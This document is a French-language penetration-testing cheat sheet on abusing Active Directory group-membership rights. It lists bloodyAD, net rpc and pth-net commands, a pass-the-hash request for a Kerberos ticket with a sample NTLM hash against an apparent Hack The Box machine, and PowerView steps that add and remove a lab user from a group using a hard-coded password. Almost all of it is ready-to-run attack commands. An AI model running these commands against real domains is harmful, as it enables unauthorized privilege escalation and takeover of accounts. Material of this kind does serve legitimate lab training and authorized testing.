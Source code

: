 
> [!TIP]
> Permet d'ajouter / supprimer un membre à un groupe

# LINUX

## BloodyAD

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember "$TargetGroup" "$TargetUser"
```

kerberos

Pass the hash to get krbtgt

```
sudo impacket-getTGT infiltrator.htb/e.rodriguez -hashes aad3b435b51404eeaad3b435b51404ee:b02e97f2fdb5c3d36f77375383449e56 -dc-ip dc01.infiltrator.htb
```

AddSelf on target

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" -k add groupMember "$TargetGroup" "$TargetUser"
```

## Net rpc

```bash
net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"
```

Pass the hash

```bash
pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```


# WINDOWS

## PowerView

1. S'authentifier avec le compte ayant les droits

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

2. Importer PowerView

```powershell
Import-Module .\PowerView.ps1
```

3. Ajouter le user au groupe

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

4. Confirmer l'ajout du user

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

5. Supprimer le user du groupe

```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

6.  Confirmer la suppression du user dans le groupe

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

